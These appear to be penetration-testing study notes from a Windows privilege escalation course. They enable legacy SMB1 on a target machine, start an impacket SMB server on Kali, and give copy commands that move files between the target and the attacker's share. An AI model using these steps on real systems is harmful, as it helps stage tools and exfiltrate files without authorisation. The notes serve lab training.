 - In Target Machine, run powershell as Windows and type this


```
PS> Enable-WindowsOptionalFeature -Online -FeatureName
"SMB1Protocol-Client" -All
```



- And restart the system
- Now in our local kali machine:

Type This:

```
──(root💀kali)-[~/Desktop/Windows Privilege Escalation for OSCP and Beyond/01 Introduction/tools]
└─# python /usr/share/doc/python3-impacket/examples/smbserver.py tools . 
```


Now:

To copy files from Kali to Windows:

```
copy \\192.168.1.11\tools\file.ext file.ext
```

To copy files from Windows to Kali:

```
copy file.ext \\192.168.1.11\tools\file.ext
```



